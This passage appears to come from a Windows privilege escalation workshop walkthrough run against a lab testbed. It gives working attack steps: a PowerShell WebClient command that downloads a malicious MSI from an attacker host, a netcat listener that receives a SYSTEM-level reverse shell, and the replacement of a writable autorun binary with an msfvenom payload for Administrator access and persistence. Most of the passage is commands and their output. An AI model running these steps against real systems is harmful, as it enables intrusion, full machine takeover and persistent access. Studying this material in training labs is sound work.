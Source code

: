 Then we transfer the payload to the victim machine:
````
(New-Object System.Net.WebClient).DownloadFile("http://YOURIPHERE/Install.msi", "C:\Users\user\Downloads\Install.msi")
````

Then when we run the install, we will get a reverse shell as NT\Authority System

````
root@kali:~/LPEWorkshop# nc -lvnp 31337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.22.6.98.
Ncat: Connection from 10.22.6.98:63300.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami & hostname
whoami & hostname
nt authority\system
LPETestbed

C:\Windows\system32>
````

Next let's look at AutoRuns:

From SharpUp:

````
=== Modifiable Registry Autoruns ===

  HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : C:\Program Files\Autorun Program\program.exe
  ````
  
This means that we can replace the binary in that location with our malicious binary, and the next time an Administrator logs in, we will get an Administrator shell. This is an unreliable privesc and something that is more suited to persistence. We use msfvenom to generate the payload and then transfer it to the box.

````
PS C:\Users\user\Downloads> (New-Object System.Net.WebClient).DownloadFile("http://10.22.6.122/program.exe", "C:\Program Files\Autorun Program\program.exe")
PS C:\Users\user\Downloads> dir C:\Progra~1\"Autorun Program"



    Directory: C:\Program Files\Autorun Program


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---        12/19/2019   8:34 AM      73802 program.exe                                                               


PS C:\Users\user\Downloads> 
````
